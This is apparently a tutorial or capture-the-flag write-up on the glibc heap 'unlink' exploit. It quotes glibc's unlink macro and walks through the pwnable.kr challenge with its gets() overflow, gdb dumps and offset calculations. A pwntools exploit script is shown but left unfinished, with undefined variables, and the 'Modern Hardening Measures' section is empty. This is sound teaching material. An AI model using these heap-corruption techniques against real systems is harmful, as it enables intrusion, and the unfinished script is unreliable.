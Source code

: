 # Unlink Exploit

The unlink exploit [Phrack \#57](http://www.phrack.org/issues/57/8.html#article)

In the unlink exploit, the goal is to exploit the following macro:

```c
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");                              \
    FD = P->fd;                                                                      \
    BK = P->bk;                                                                      \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
      malloc_printerr ("corrupted double-linked list");                              \
    else {                                                                      \
        FD->bk = BK;                                                              \
        BK->fd = FD;                                                              \
        if (!in_smallbin_range (chunksize_nomask (P))                              \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {                      \
            if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)              \
                || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
              malloc_printerr ("corrupted double-linked list (not small)");   \
            if (FD->fd_nextsize == NULL) {                                      \
                if (P->fd_nextsize == P)                                      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;                      \
                else {                                                              \
                    FD->fd_nextsize = P->fd_nextsize;                              \
                    FD->bk_nextsize = P->bk_nextsize;                              \
                    P->fd_nextsize->bk_nextsize = FD;                              \
                    P->bk_nextsize->fd_nextsize = FD;                              \
                  }                                                              \
              } else {                                                              \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;                      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;                      \
              }                                                                      \
          }                                                                      \
      }                                                                              \
}
```

The unlink macro removes a chunk from a bin.  

```c
FD->bk = BK;                                                              \
BK->fd = FD;
```

#### Consolidate Backwards

glibc likes to keep the heap tidy, as I've been told, so if two adjacent chunks in memory are both free, why not merge them?  This action happens through the previous inuse bit set within a chunk.  If a chunk has it's previous inuse bit set, then it will consolidate them through the following action.

```c
#define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s)))
```

```c
    /* consolidate backward */
    // Is the previous chunk free?
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
       // add previous chunk size to current size
      size += prevsize;
       // move data pointer back to merge both chunks
       // i.e. change chunk pointer to point to current chunk
      p = chunk_at_offset(p, -((long) prevsize));
      // unlink from from the bin
      
      unlink(av, p, bck, fwd);
    }
```

This chunk is then placed within the unsorted chunk list, as it is given a chance to be re-allocated before being placed in a regular bin, but that's not as important to the crux of the exploit.  

## Example 1: pwnable.kr

This used to be much easier to exploit, but due to glibc hardening it's much more difficult.  Firstly, I'll walk through an example from pwnable.kr which will allow us to demonstrate the prior behaviour.  This implements a custom unlink method.  Since this doesn't contain the hardening done by glibc, it makes it much easier to show how this was done originally. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```

We have the stack and heap addresses, so ASLR is no longer an issue.  In this the data being passed into A is not bounds checked, so we need to write a fake chunk into A, and overwrite the fd and bk pointers in B.  

```text
(gdb) r
Starting program: /home/unlink/unlink 
here is stack address leak: 0xffb07fe4
here is heap address leak: 0x91ae410
now that you have leaks, get shell!
```

```text
(gdb) p shell
$2 = {<text variable, no debug info>} 0x80484eb <shell>
```

```text
(gdb) x/20x 0xffb07fe4
0xffb07fe4:	0x091ae410	0x091ae440	0x091ae428	0xf776e3dc
0xffb07ff4:	0xffb08010	0x00000000	0xf75d7637	0xf776e000
0xffb08004:	0xf776e000	0x00000000	0xf75d7637	0x00000001
0xffb08014:	0xffb080a4	0xffb080ac	0x00000000	0x00000000
0xffb08024:	0x00000000	0xf776e000	0xf77a6c04	0xf77a6000
(gdb) info frame
Stack level 0, frame at 0xffb07f08:
 eip = 0xf7780c99 in __kernel_vsyscall; saved eip = 0xf7693443
 called by frame at 0xffb07f10
 Arglist at 0xffb07f00, args: 
 Locals at 0xffb07f00, Previous frame's sp is 0xffb07f08
 Saved registers:
  ecx at 0xffb07f00, edx at 0xffb07efc, ebp at 0xffb07ef8, eip at 0xffb07f04
```

```text
(gdb) p -0xffb07f04+0xffb07fe4
$4 = 224
```

```text
(gdb) x/6x 0x91ae410   <==== A
0x91ae410:	0x091ae428	0x00000000	0x00000000	0x00000000
0x91ae420:	0x00000000	0x00000019
(gdb) x/6x 0x91ae410+4*6 <====== B
0x91ae428:	0x091ae440	0x091ae410	0x00000000	0x00000000
0x91ae438:	0x00000000	0x00000019
```

Since it exits immediately after we're going to want to overwrite eip, which we can calculate from the stack leak.

We only need to do a 4-byte overwrite into the B struct as we'll just overwrite fwd

```text
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;
```

By overwriting fd with EIP:

```text
FD=P->fd;
FD->bk=BK;
```

So we need to write a fake chunk plus 4 bytes which will be the address of EIP-4.

```python
from pwn import *

r.recvuntil(' stack address leak: ')
stack = r.recvline()
r.recvuntil(' heap address leak: ')
heap = r.recvline()

fake_chunk = p32(heap+28)

r.sendafter(' get shell!', payload)
```

## Modern Hardening Measures



